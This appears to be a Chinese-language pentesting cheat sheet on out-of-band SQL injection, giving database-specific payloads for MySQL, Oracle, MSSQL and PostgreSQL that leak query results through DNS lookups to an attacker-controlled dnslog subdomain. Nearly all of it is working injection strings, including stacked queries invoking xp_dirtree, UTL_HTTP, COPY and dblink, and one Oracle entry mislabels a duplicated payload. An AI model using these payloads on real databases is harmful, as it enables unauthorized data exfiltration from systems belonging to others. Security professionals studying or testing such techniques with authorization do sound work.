 # SQL 注入信息外带（OOB）
SQL注入时候，利用特定函数，将查询结果拼接到DNS协议请求中，带出来，从而实现回显的命令注入漏洞利用。  

## 0x01 前期准备
我们需要一个三级域名服务器（nameserver）也是DNS服务器（DNS Server）：   
1. dnslog  http://www.dnslog.cn/
2. 自己搭建个DNS服务器和购买域名  

## 0x02 漏洞利用
re111.dnslog.cn 是你拥有的三级域名。    
### 2.1 MySQL
#### 2.1.1 条件
- Windows
- mysql.ini 中 secure_file_priv 必须为空，select @@secure_file_priv
- 适用于联合注入或堆叠注入
#### 2.1.2 利用
利用 mysql 中的 load_file() 函数，借助了Windows UNC路径特性。   
```
select load_file(concat("\\\\",version(),".re111.dnslog.cn//1ndex.txt"));
```
### 2.2 oracle
#### 2.2.1 条件
- 适用于联合注入或堆叠注入
#### 2.2.2 利用

UTL_HTTP.REQUEST()
```
SELECT UTL_HTTP.REQUEST((SELECT * from v$version)||'.re111.dnslog.cn') FROM sys.DUAL;
```
DBMS_LDAP.INIT()
```
SELECT DBMS_LDAP.INIT((SELECT * from v$version)||'.re111.dnslog.cn',80) FROM sys.DUAL;
```
HTTPURITYPE()
```
SELECT HTTPURITYPE((SELECT * from v$version)||'.re111.dnslog.cn').GETCLOB() FROM sys.DUAL;
```
UTL_INADDR.GET_HOST_ADDRESS()
```
SELECT HTTPURITYPE((SELECT * from v$version)||'.re111.dnslog.cn').GETCLOB() FROM sys.DUAL;
```

### 2.3 mssql
#### 2.3.1 条件
- Winodows
- 适用于联合注入或堆叠注入
#### 2.3.2 利用
原理跟mysql利用一致。    
```
d=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.re111.dnslog.cn'; EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"'); 
```
```
id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.re111.dnslog.cn'; EXEC('master..xp_fileexist "\'%2b@host%2b'\foobar$"'); 
```
```
id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT SERVERPROPERTY('edition'))%2b'.re111.dnslog.cn'; EXEC('master..xp_subdirs "\'%2b@host%2b'\foobar$"');
```
### 2.4 postgreSQL
#### 2.4.1 条件
- Windows
- 适用于堆叠注入

```
id=1;DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result TEXT; BEGIN SELECT INTO query_result (select version()); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.re111.dnslog.cn\\\\aaa.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgSQL SECURITY DEFINER; SELECT temp_function(); 
```
开启 db_link 扩展：

```
id=1;CREATE EXTENSION dblink;SELECT * FROM dblink('host='||(SELECT version())||'.re111.dnslog.cn username=1ndex password=1ndex','SELECT 1ndex') RETURNS (result TEXT); 
```

## Ref
- https://www.cnblogs.com/wjrblogs/p/14367387.html
